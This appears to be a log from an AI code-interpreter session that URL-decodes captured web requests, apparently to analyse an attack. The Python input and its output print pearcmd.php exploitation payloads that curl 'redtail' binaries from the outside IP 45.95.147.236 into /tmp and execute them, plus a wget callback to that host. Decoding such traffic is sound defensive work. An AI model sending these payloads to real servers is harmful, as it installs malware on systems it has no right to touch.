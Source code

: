 ````python
]

# Decode and print the commands
decoded_commands = [urllib.parse.unquote(cmd) for cmd in encoded_commands]
decoded_commands
````

#### Outputs:

**Step ID:** `step_RzPvk4FNMXL5gEAEIbo9YbrU`

**AI Used: Code Interpreter**

#### Input Code:

````python
import urllib.parse

# List of encoded commands in the requests
encoded_commands = [
    "/pearcmd.php?cmd=curl%20fsSL%20http%3A%2F%2F45.95.147.236%2Fdownload%2Fredtail.amd64%20%3E%20%2Ftmp%2Fb.sh%20%3B%20chmod%20755%20%2Ftmp%2Fb.sh%20%3B%20cd%20%2Ftmp%20%3B%20.sh%20b.sh",
    "/pearcmd.php?cmd=curl%20fsSL%20http%3A%2F%2F45.95.147.236%2Fdownload%2Fredtail.x86_64%20%3E%20%2Ftmp%2Fb.sh%20%3B%20chmod%20755%20%2Ftmp%2Fb.sh%20%3B%20cd%20%2Ftmp%20%3B%20.sh%20b.sh",
    "/pearcmd.php?cmd=curl%20fsSL%20http%3A%2F%2F45.95.147.236%2Fdownload%2Fredtail.x86_64%20%3E%20%2Ftmp%2Fb.sh%20%3B%20chmod%20755%20%2Ftmp%2Fb.sh%20%3B%20cd%20%2Ftmp%20%3B%20.sh%20b.sh",
    "/pearcmd.php?cmd=curl%20fsSL%20http%3A%2F%2F45.95.147.236%2Fdownload%2Fredtail.x86_64%20%3E%20%2Ftmp%2Fb.sh%20%3B%20chmod%20755%20%2Ftmp%2Fb.sh%20%3B%20cd%20%2Ftmp%20%3B%20.sh%20b.sh",
    "/pearcmd.php?cmd=curl%20fsSL%20http%3A%2F%2F45.95.147.236%2Fdownload%2Fredtail.x86_64%20%3E%20%2Ftmp%2Fb.sh%20%3B%20chmod%20755%20%2Ftmp%2Fb.sh%20%3B%20cd%20%2Ftmp%20%3B%20.sh%20b.sh",
    "/pearcmd.php?cmd=bash%20-c%20%27%7B%20echo%2Cwget%20-O%20-%20http%3A%2F%2F45.95.147.236%2Fohhellohttpserver%20%3E%20%2Fdev%2Fnull%202%3E%26%203%3B%20%7D%27%20%26",
    "/pearcmd.php?cmd=bash%20-c%20%27%7B%20echo%2Cwget%20-O%20-%20http%3A%2F%2F45.95.147.236%2Fohhellohttpserver%20%3E%20%2Fdev%2Fnull%202%3E%26%203%3B%20%7D%27%20%26",
]

# Decode and print the commands
decoded_commands = [urllib.parse.unquote(cmd) for cmd in encoded_commands]
decoded_commands
````

#### Outputs:

````python
['/pearcmd.php?cmd=curl fsSL http://45.95.147.236/download/redtail.amd64 > /tmp/b.sh ; chmod 755 /tmp/b.sh ; cd /tmp ; .sh b.sh',
 '/pearcmd.php?cmd=curl fsSL http://45.95.147.236/download/redtail.x86_64 > /tmp/b.sh ; chmod 755 /tmp/b.sh ; cd /tmp ; .sh b.sh',
 '/pearcmd.php?cmd=curl fsSL http://45.95.147.236/download/redtail.x86_64 > /tmp/b.sh ; chmod 755 /tmp/b.sh ; cd /tmp ; .sh b.sh',
 '/pearcmd.php?cmd=curl fsSL http://45.95.147.236/download/redtail.x86_64 > /tmp/b.sh ; chmod 755 /tmp/b.sh ; cd /tmp ; .sh b.sh',
 '/pearcmd.php?cmd=curl fsSL http://45.95.147.236/download/redtail.x86_64 > /tmp/b.sh ; chmod 755 /tmp/b.sh ; cd /tmp ; .sh b.sh',
 "/pearcmd.php?cmd=bash -c '{ echo,wget -O - http://45.95.147.236/ohhellohttpserver > /dev/null 2>& 3; }' &",
 "/pearcmd.php?cmd=bash -c '{ echo,wget -O - http://45.95.147.236/ohhellohttpserver > /dev/null 2>& 3; }' &"]
````

